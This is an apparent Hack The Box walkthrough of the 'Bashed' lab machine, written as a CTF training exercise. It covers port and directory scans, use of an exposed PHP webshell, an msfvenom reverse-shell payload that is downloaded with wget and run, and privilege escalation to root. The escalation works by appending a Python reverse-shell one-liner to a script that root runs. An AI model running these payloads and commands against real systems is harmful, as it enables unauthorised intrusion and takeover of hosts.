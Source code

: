 # [Bashed](https://app.hackthebox.eu/machines/118)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.68 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.68 # quick scan
```

Both scans return the following open port:

![nmap](./bashed/nmap.png)

While exploring the website, the following scans can run in the background:

```bash
dirb http://10.10.10.68 -r
nikto -h http://10.10.10.68 --maxtime=30s
```

The website is a landing page for a PHP reverse shell for penetration testing and points to a Github repository: https://github.com/Arrexel/phpbash
![website](./bashed/website.png)

Looking at the other scans, `nikto` didn't return anything useful. However, `dirb` returned the following interesting directories:

![dirb](./bashed/dirb.png)

Looking inside `http://10.10.10.68/dev` shows 2 files `phpbash.php` and `phpbash.min.php` which open shells on the target:

![phpbash_enum](./bashed/phpbash_enum.png)

After some basic enumeration, the machine is running `Ubuntu 16.04.2 LTS` on an `x86_64` architecture and has `wget` installed. From here, a reverse shell payload can be made, uploaded, and executed:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
```

Then in the PHP webshell:

- Had issues trying to run the following as one command... but it works when running each seperately?

```bash
cd /tmp
wget http://10.10.14.23:8080/bubba.elf
chmod 777 bubba.elf
./bubba.elf
```

This will spawn a dedicated reverse shell that can be upgraded to a TTY shell using the following:

- TTY shell upgrades: https://netsec.ws/?p=337

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

![ww-data_shell](./bashed/www-data_shell.png)

Looking for user files gives `user.txt`:

![user](./bashed/user.png)

During user enumeration, the following interesting users show up and `www-data` is allowed to run commands as one of them:

```bash
cat /etc/passwd | cut -d: -f1 # list users
sudo -l                       # get user permissions
sudo -u scriptmanager id      # test user permissions
```

![sudo](./bashed/sudo.png)

Next find all files owned by this new user `scriptmanager`. This returns an interesting file at `/scripts/test.py`:

```bash
sudo -u scriptmanager find / -user scriptmanager -type f -exec ls -lad {} \; 2>/dev/null
```

![find](./bashed/find.png)

This file has the following contents:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

When looking for the file `test.txt`, it seems to be owned by `root`:

```bash
sudo -u scriptmanager find / -iname test.txt -type f -exec ls -lad {} \; 2>/dev/null
```

![find2](./bashed/find2.png)

Maybe `root` is running this `test.py`? To test the theory, add the following to `test.py`:

```bash
sudo -u scriptmanager /bin/bash
echo "f=open('hello','w');f.write('world');f.close" >> /scripts/test.py
```

After a couple of minutes, a new file appears in `/scripts` owned as `root`!

![hello_world](./bashed/hello_world.png)

Add the following Python reverse shell payload to `test.py` as `scriptmanager` for a `root` reverse shell:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /scripts/test.py
```

And wait for the connection:

![root](./bashed/root.png)

